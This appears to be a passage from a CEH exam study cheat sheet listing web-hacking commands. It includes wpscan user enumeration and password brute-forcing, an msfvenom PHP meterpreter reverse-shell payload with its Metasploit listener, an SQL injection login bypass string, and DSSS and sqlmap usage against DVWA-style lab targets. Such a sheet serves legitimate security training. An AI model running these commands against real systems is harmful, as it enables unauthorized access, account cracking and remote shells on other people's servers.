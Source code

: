 ### wpscan

Wordpress site only Users Enumeration
wpscan --url http://example.com/ceh --enumerate u

Direct crack if we have user/password detail
wpscan --url http://x.x.x.x/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt
wpscan --url http://x.x.x.x:8080/CEH -u <user> -P ~/wordlists/password.txt

## 7. Hacking WebServers & WebApps

### Nslookup
**To verify Website's Ip**
Nslookup wwww.example.com

### File Upload Vulnerability
**To create a PHP Payload**
Copy the PHP code and create a .php
msfvenom -p php/meterpreter/reverse_tcp lhost=attacker-ip lport=attcker-port -f raw

**To create a Reverse_tcp Connection**
msfconsole
use exploit/multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST = attacker-ip
set LPORT = attcker-port
run

**To find the secret file**
  type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt
  
### SQL Injection
Login bypass with [' or 1=1 --]

**OWASP ZAP**
Open the ZAP 
Add the webiste name to Autoscan
Click on the Alert tab to know about Vulnerabilities

**DSSS**
Damn Small SQLi Scanner (DSSS) is a fully functional SQL injection vulnerability scanner (supporting GET and POST parameters)

As of optional settings it supports HTTP proxy together with HTTP header values User-Agent, Referer and Cookie.

python3 dsss.py -u "url" --cookie="cookie"

### sqlmap
Open the vulnerable website 
Copy the cookie from the inspect element
Open the terminal to use sqlmap 
